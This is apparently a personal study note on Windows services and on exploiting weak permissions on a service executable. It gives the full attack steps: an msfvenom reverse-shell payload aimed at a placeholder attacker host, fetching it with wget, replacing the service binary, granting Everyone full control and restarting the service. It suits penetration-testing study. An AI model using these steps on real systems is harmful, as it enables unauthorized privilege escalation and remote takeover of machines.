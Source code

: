 Each service on a windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
To better understand the structure of a service we can use `sc qc SERVICE` to check it.
Here we can see that the associated executable is specified through the `BINARY_PATH_NAME` and the account used to run the service is shown on the `SERVICE_START_NAME` parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permissions to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from [[Process Hacker]]. 
All of the services configurations are stored on the registry under 
```
HKLM\SYSTEM\CurrentControlSet\Services\
```
We can check it with the **Registry Editor** app. A subkey exists for every service in the system. Here we can again see, values for things like the executable path as well as the account that the program will be ran as. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. And yes, only administrators can modify such registry entries by default.
### Insecure Permission on Service Executable
If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account with relative ease.
To do this we can first query a service configuration using `sc`
```
sc qc SERVICE
```
Then using the path found on the **BINARY_PATH_NAME** check it for permissions using `icacls`
```
icacls c:\path\path\service.exe
```
Which will result in a list of permissions for different groups. What is mainly of our concern is both the `(F)` and `(M)` permissions to indicate that it is overwritable. We can then try to use [[Metasploit#Msfvenom|Msfvenom]] to craft a payload to gain a reverse shell like so
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_PORT LPORT=PORT -f exe-service -o rev-svc.exe
```
and then download the payload using something like a python server and `wget`

Once we have the payload in the windows server, we proceed to replace the service executable with our payload and change the permission so other users can execute the payload. Also, good practice to not remove the original payload if we mess up, we can instead do something like `move service.exe service.exe.bkp`. And then to change permissions 
```
icacls service.exe /grant Everyone:F
```
Finally we just need to start a listener service on our part. And restart the service so the executable can do it's job
```
sc stop SERVICE
sc start SERVICE
```
(if done in PowerShell, we need to use `sc.exe` as PowerShell uses `sc` as an alias to `Set-Content`)
